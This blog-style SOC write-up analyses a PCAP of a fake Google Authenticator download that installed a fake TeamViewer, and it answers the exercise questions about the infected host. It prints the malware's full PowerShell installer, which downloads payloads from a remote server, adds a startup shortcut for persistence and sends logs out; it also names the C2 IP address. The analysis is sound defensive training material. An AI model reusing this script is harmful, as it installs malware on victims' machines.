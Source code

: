 ```yaml
---
title: Traffic Analysis Exercise (Download from fake software site)
date: 2025-02-22 12:57:00 +3
categories: SOC
tags: [SOC, Malware Traffic Analysis, Wireshark, VirusTotal]
image: 
  path: /assets/img/SoftwareDownload.JPG
---
```


On January 22, 2025, an employee reported to Fictional Corp’s Security Operations Center (SOC) that a coworker downloaded a suspicious file. A Bing search for the Google Authenticator application was done and they clicked on the malicious ad which led them to a malicious website where the fake software was installed. After the malware was executed on the victim’s machine, from the network traffic analysis it was observed that it would download other files to the machine. The malware also exhibited persistence capabilities by adding itself to the startup programs folder ensuring that it runs every time the system boots up. Despite no observable malicious actions to date, its presence poses a significant potential threat to the organization.

## LAN Segment Details from the PCAP

* LAN segment range:  **10.1.17[.]0/24**   (**10.1.17[.]0** through **10.1.17[.]255**)
* Domain:  **bluemoontuesday[.]com**
* Active Directory (AD) domain controller:  **10.1.17[.]2** - **WIN-GSH54QLW48D**
* AD environment name:  **BLUEMOONTUESDAY**
* LAN segment gateway:  **10.1.17[.]1**
* LAN segment broadcast address:  **10.1.17[.]255**

## Network Traffic analysis porcess 
This section describes the steps taken in the network traffic analysis, my thought process and how I reviewed the traffic to find the IoC's that was shared by the Threat intelligence source. It most definitely made this process much easier so lets dive in!

Considering that the incident involved visiting a malicious website, it was logical to start by filtering the packets for DNS traffic. I identified one of the sub domains used for the malicious ads i.e `google-authenticator.burleson-appliance.net/`.

![Alt Text](/assets/img/DFS1.JPG)

The next step involved filtering for http.requests in order to check for the fake software that was installed and other files that were pilled from the network when it was executed on the victims machine. From the screenshot below, we can see the **TeamViewer application file** , **pas.ps1**, **29842.ps1** and many others which were retrieved.

![Alt Text](/assets/img/DFS2.JPG)

In the screenshot below, it shows when I followed the TCP stream  of the highlighted packets and the more I scrolled down, I identified more files that were being pulled into the vicitims machine. it's how I found `29842.ps1`

![Alt Text](/assets/img/DFS3.JPG)

I also got to see the script that was used to install the fake Teamviewer application. This shows us the behavior of the fake software once it gets to the vicitoms machine. To summarize what it does, the script dowanloads and executes files (i.e `TeamViewer.exe`, `Teamviewer_Resource_fr.dll`, `TV.dll`, and `pas.ps1` files) from a remote server; there are initial actions the fake software takes to establish itself in the vicitms machine. It also created a shortcut in the startup folder so that it can run everytime the system starts, this a way in which attackers ensure persistence in the system. The script also sends logs to a remote server, which indicates that the fake software might be communicating with an external attacker, potentially sending sensitive data or receiving commands. This summary has given behavior analysis of the fake software. 


```javascript
function Download-Files($panelIP, $files, $filesDir){
    $web = New-Object System.Net.WebClient
    
    try {
        if(!(Test-Path $filesDir)) {
            New-Item $filesDir -ItemType Directory | Out-Null
        }
    } catch {
        return @{'status' = 'error'; 'message' = 'error while creating startup directory'}
    }
    
    foreach($file in $files) {
        try {
            $link = $file.link
            $fileName = $file.name
            $filePath = "$filesDir\$($file.name)"
            $web.DownloadFile($link, $filePath)
            if($fileName -eq $startupFile){
                $exePath = $startupFile
            }
        } catch {
            return @{'status' = 'error'; 'message' = "Error while download file. Filename: $($file.name). Link: $($link). Error: $($Error[0].exception.message)"}
        }
    }


    return @{'status' = 'success'}
}


function Create-Shortcut($filePath, $shortCutpath){
    $WshShell = New-Object -comObject WScript.Shell
    $Shortcut = $WshShell.CreateShortcut($shortCutpath)
    $Shortcut.TargetPath = $filePath
    $Shortcut.Save()
}


function Invoke-Startup($panelIP, $files, $filesDir, $startupFileName){
    $result = Download-Files $panelIP $files $filesDir
    if ($result.status -eq 'error'){
        return $result
    }


    #$startupFilePath = "$filesDir\$startupFileName"
    $startupFilePath = "C:\ProgramData\huo\TeamViewer.exe"
    $shortcutPath = "$([Environment]::GetFolderPath('Startup'))\TeamViewer.lnk"


    try {
        Create-Shortcut $startupFilePath $shortcutPath
    } catch {
        return @{'status' = 'error'; 'message' = "Error while creating shortcut."}
    }


    return @{'status' = 'success'; 'message' = 'startup shortcut created'}
}


function Send-Log($result){
    $log = "?k=$result"
    $uploadUrl = $url + $log
    $web = New-Object System.Net.WebClient
    $web.DownloadString($uploadUrl)
}


function ConvertTo-StringData($hashTable){
        foreach ($item in $hashTable) {
            foreach ($entry in $item.GetEnumerator()) {
                "{0} = {1}; " -f $entry.Key, $entry.Value
            }
        }
}


$filesDownloadLink = $ip + 'api/file/get-file/'
$filesDir = 'C:\ProgramData\huo'
$files = @(
    @{'name' = 'TeamViewer.exe'; 'link' = $filesDownloadLink + 'TeamViewer'},
    @{'name' = 'Teamviewer_Resource_fr.dll'; 'link' = $filesDownloadLink + 'Teamviewer_Resource_fr'},
    @{'name' = 'TV.dll'; 'link' = $filesDownloadLink + 'TV'}
    @{'name' = 'pas.ps1'; 'link' = $filesDownloadLink + 'pas.ps1'}
)
$startupFile = 'TeamViewer.exe'


$result = Invoke-Startup $panelIP $files $filesDir $startupFile
$result = ConvertTo-StringData($result)
Send-Log($result)p, li { white-space: pre-wrap; }hr { height: 1px; border-width: 0; }li.unchecked::marker { content: "\2610"; }li.checked::marker { content: "\2612"; }
```
I also took note of the server that supported the downloads: **5.252.153.241**

![Alt Text](/assets/img/DFS4.JPG)

The following screenshots show an alternative method of finding more files that were retrieved from the malicious server. From the previosu step, we already identified it hence filtering the packets by specifying the it's ip address when filtering for http requests can be useful in narrowinf the traffic down to find much more valuable traffic. 

![Alt Text](/assets/img/DFS5.JPG)

![Alt Text](/assets/img/DFS6.JPG)

## Questions 

**What is the IP address of the infected Windows client?** 10.1.17.215 
At the start, when we filtered for DNS traffic, the IP that visited one of the malicious ad's subdomains is the infected Windows client.

![Alt Text](/assets/img/DFS7.JPG)

**What is the mac address of the infected Windows client?** Intel_26:4a:74 (00:d0:b7:26:4a:74)
This information was obtained from the very same packet from the previous question. The screenshot below shows its details where I got the MAC address.

![Alt Text](/assets/img/DFS8.JPG)

**What is the host name of the infected Windows client?** DESKTOP-L8C5GSJ
Since I already knew the IP address of the affected machine, I used it to filter the packets to display NBNS packets associated with the infected Windows client.

![Alt Text](/assets/img/DFS9.JPG)

![Alt Text](/assets/img/DFS10.JPG)

**What is the user account name from the infected Windows client?** shutchenson
I searched for Kerberos authentication, which is used by AD DC, to see if I could find packets that would reveal the user account name. I selected the first packet and viewed its details and got `shutchenson`.

![Alt Text](/assets/img/DFS11.JPG)

**What is the likely domain name for the fake Google Authenticator page?**
From a previous DNS filtered search, I found a subdomain which is also listed as one of the main website's subdomains that could likely be the Google Authenticator page.

![Alt Text](/assets/img/DFS12.JPG)

**What are the IP addresses used for C2 servers for this infection?**
Server used to download the malicious files: 5.252.153.241

![Alt Text](/assets/img/DFS13.JPG)

![Alt Text](/assets/img/DFS14.JPG)


